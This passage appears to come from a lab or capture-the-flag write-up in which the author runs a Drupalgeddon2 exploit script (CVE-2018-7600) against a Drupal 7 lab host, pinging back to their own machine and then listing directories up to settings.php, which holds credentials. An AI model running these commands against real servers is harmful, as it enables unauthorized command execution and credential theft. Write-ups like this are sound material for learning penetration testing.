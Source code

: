 9. Using ping command to confirm the target server can send request back to my host 

```
python drupa7-CVE-2018-7600.py -c 'ping 10.10.17.145' http://10.129.48.89 
```

![](./IMG/17.png)

10. With a bunch of testing, I finally find the following directory and files.
```
python drupa7-CVE-2018-7600.py -c 'ls -al sites' http://10.129.48.89 
python drupa7-CVE-2018-7600.py -c 'ls -al sites/default' http://10.129.48.89 
python drupa7-CVE-2018-7600.py -c 'ls -al sites/default/settings.php' http://10.129.48.89 
```

![](./IMG/19.png)
